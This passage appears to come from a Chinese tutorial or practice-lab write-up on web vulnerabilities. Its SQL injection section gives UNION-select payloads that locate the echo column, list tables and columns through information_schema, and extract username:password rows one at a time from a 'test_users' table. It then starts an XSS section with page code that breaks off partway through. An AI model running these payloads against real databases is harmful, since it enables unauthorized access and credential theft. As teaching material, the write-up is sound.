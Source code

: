 万能密码登录：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191120092745503.png)

注出数据：
（1）测试回显位置:
payload：
```sql
-1' union select 1,2,3 #
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191120093158978.png)
（2）注出表名：
payload：
```
-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3#
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191120093641663.png)
（3）注出列名：
payload:
```sql
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='test_users'),3#
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191120093816308.png)

（4）注出数据，可修改limit语句逐行注出账号密码：
```sql
-1' union select 1,(select concat(username,':',password) from test_users limit 0,1),3#
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191120094503432.png)
2、XSS

代码：
```php
<!DOCTYPE html>
<html>
<head>
    <title></title>
    <meta charset="utf-8" />
    <link rel="stylesheet" href="http://cdn.static.runoob.com/libs/bootstrap/3.3.7/css/bootstrap.min.css">
    <script src="http://cdn.static.runoob.com/libs/jquery/2.1.1/jquery.min.js"></script>
    <script src="http://cdn.static.runoob.com/libs/bootstrap/3.3.7/js/bootstrap.min.js"></script>
    <script src="http://www.jq22.com/jquery/jquery-1.10.2.js"></script>
    <script src="http://libs.baidu.com/jquery/1.10.2/jquery.min.js"></script>
    <script>
        $(document).ready(function() {
            //设备宽度
            var s = window.screen;
            var width = q.width = s.width;
            var height = q.height;
            var yPositions = Array(300).join(0).split('');
            var ctx = q.getContext('2d');
            var draw = function() {
                ctx.fillStyle = 'rgba(0,0,0,.05)';
                ctx.fillRect(0, 0, width, height);
                ctx.fillStyle = 'green';/*代码颜色*/
                ctx.font = '10pt Georgia';
                yPositions.map(function(y, index) {
                    text = String.fromCharCode(1e2 + Math.random() * 330);
                    x = (index * 10) + 10;
                    q.getContext('2d').fillText(text, x, y);
                    if (y > Math.random() * 1e4) {
                        yPositions[index] = 0;
```
